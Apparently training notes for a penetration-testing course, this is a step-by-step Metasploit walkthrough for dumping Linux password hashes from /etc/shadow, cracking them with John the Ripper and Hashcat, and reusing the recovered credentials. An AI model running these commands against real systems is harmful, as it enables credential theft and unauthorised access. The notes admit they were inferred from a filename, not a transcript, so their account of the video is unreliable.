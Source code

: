 # 07 - Dumping Hashes With Hashdump (Linux Post-Exploitation)

Note: No transcript was provided. The following summary is inferred conservatively from the filename and folder (05-LinuxPostExploitation). It covers the standard Metasploit workflow for dumping Linux password hashes (from /etc/shadow) using the hashdump post module and prepping them for cracking.

## What the video covers (Introduction / big picture)
- How to dump password hashes from a compromised Linux host using Metasploit’s hashdump post module.
- Prerequisites: you already have a session on the target (ideally a Meterpreter session) and sufficient privileges to read /etc/shadow (typically root).
- Where the dumped hashes are stored (Metasploit loot) and how to prepare them for offline cracking with John the Ripper (and optionally Hashcat).
- Quick manual alternatives if the module fails.

## Flow (ordered)
1. Confirm you have a working session on a Linux target (preferably Meterpreter).
2. Check your privileges (you need root to read /etc/shadow).
3. Run Metasploit’s post/linux/gather/hashdump module against the session.
4. Locate the loot files saved by Metasploit (shadow/passwd/hashes).
5. If needed, manually grab /etc/passwd and /etc/shadow.
6. Prepare a crackable file (unshadow) for John.
7. Crack hashes with John (or extract just hashes for Hashcat).
8. Reuse recovered credentials for further access or escalation.

## Tools highlighted
- Metasploit Framework (msfconsole)
  - Meterpreter
  - post/linux/gather/hashdump
  - loot
- Linux system files: /etc/passwd and /etc/shadow
- John the Ripper (unshadow, john)
- Optional: Hashcat
- Useful shell utilities: awk, cut, grep

## Typical command walkthrough (detailed, copy-paste friendly)

Assumptions:
- You have msfconsole running and at least one session on a Linux target.
- If your session is a basic shell, upgrade to Meterpreter for best results.

1) List sessions and upgrade shell to Meterpreter if needed
```
msf6 > sessions -l
# If your session is a shell (not meterpreter), upgrade it:
msf6 > sessions -u <session_id>
msf6 > sessions -i <meterpreter_session_id>
meterpreter > getuid
meterpreter > sysinfo
```

2) Verify privilege (need root to read /etc/shadow)
```
meterpreter > shell
id
# If not root, attempt privilege escalation before proceeding.
exit
```

3A) Run the hashdump post module from msfconsole
```
msf6 > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set SESSION <meterpreter_session_id>
msf6 post(linux/gather/hashdump) > run
```

3B) Or run it directly from the Meterpreter prompt
```
meterpreter > run post/linux/gather/hashdump
```

- The module attempts to read /etc/passwd and /etc/shadow, then parses and saves loot. Metasploit prints the saved loot file paths (e.g., under ~/.msf4/loot/).

4) View loot to find saved files (hashes, passwd, shadow)
```
msf6 > loot
```

5) Manual fallback (if the module fails or you prefer manual)
```
meterpreter > shell
cat /etc/passwd
cat /etc/shadow   # requires root
exit
# Or pull files directly:
meterpreter > download /etc/passwd
meterpreter > download /etc/shadow
```

6) Prepare for John the Ripper (unshadow combines passwd+shadow)
```
# On attacker machine:
# If rockyou is still compressed:
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 2>/dev/null || true

# Combine (use the files you downloaded or those saved by Metasploit loot):
unshadow /path/to/passwd /path/to/shadow > unshadowed.txt
```

7) Crack with John
```
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --show unshadowed.txt
```
- John auto-detects most Linux hash types:
  - $1$ = md5crypt
  - $5$ = sha256crypt
  - $6$ = sha512crypt
  - $y$ = yescrypt (requires jumbo John; supported in current packages)

8) Optional: Prepare hashes for Hashcat
```
# Extract just "username:hash" lines with valid hashes (exclude locked accounts)
awk -F: '($2 !~ /^\*|^!$/ && $2 != "" && $2 != "x"){print $1 ":" $2}' /path/to/shadow > hashcat_user_hashes.txt
# Or just the hashes (second field) if you don’t need usernames:
awk -F: '($2 !~ /^\*|^!$/ && $2 != "" && $2 != "x"){print $2}' /path/to/shadow > hashes_only.txt

# Determine hash mode from the prefix:
# $1$ -> -m 500 (md5crypt)
# $5$ -> -m 7400 (sha256crypt)
# $6$ -> -m 1800 (sha512crypt)
# bcrypt ($2a$/$2y$) -> -m 3200
# yescrypt ($y$) -> prefer John (Hashcat support varies by version)

# Example for SHA-512 crypt ($6$):
hashcat -m 1800 hashes_only.txt /usr/share/wordlists/rockyou.txt
```

9) Reuse creds for further actions
```
# Example: SSH with found creds
ssh username@target
# Or switch user on an interactive shell
su - username
```

## Practical tips
- The post/linux/gather/hashdump module requires sufficient privileges to read /etc/shadow. If it fails with permission denied, escalate to root first.
- You can run the module directly from meterpreter via: run post/linux/gather/hashdump
- Metasploit loot paths are printed when the module runs; use msfconsole’s loot command to rediscover them later.
- Recognize hash types by prefix: $1$ (MD5), $5$ (SHA-256), $6$ (SHA-512), $2x/$2y (bcrypt), $y$ (yescrypt).
- For yescrypt ($y$), John the Ripper (jumbo) is typically the simplest route.
- Filter out system or locked accounts when cracking to save time (shadow entries with ! or * in the password field are locked).
- If you only have a standard shell in Metasploit, upgrade it: sessions -u <id>
- Keep your cracking wordlists updated and uncompressed; rockyou.txt is a common baseline for eJPT labs.

## Minimal cheat sheet (one-screen flow)
```
# In msfconsole:
sessions -l
sessions -u <id>                     # if needed, upgrade shell to Meterpreter
use post/linux/gather/hashdump
set SESSION <meterpreter_session_id>
run
loot                                 # note paths to passwd/shadow/hashes

# If manual:
sessions -i <meterpreter_session_id>
meterpreter > download /etc/passwd /etc/shadow

# Prepare and crack:
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 2>/dev/null || true
unshadow /path/to/passwd /path/to/shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --show unshadowed.txt
```

## Summary
- The video demonstrates dumping Linux password hashes via Metasploit’s post/linux/gather/hashdump after gaining a session on the target.
- The module collects /etc/passwd and /etc/shadow, saves them as loot, and outputs crack-ready data.
- When the module cannot access /etc/shadow, escalate privileges or pull the files manually.
- Use unshadow + John to crack quickly; fall back to Hashcat with the correct mode if preferred.
- Recovered credentials can enable lateral movement and privilege escalation in subsequent steps.